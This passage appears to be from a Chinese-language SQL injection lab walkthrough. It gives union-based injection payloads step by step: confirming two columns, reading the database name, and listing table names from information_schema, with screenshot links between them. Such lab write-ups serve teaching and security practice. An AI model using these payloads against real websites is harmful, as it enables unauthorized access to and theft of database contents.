 得到有两列



那么就可以按正常流程：

```
' union select 1,2 #
```

![image-20220115130718085](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115130718085.png)



```
' union select database(),2 #
```

![image-20220115130815210](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115130815210.png)



```
' union select group_concat(table_name),2 from information_schema.tables where table_schema="security" #
```

![image-20220115130930869](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115130930869.png)
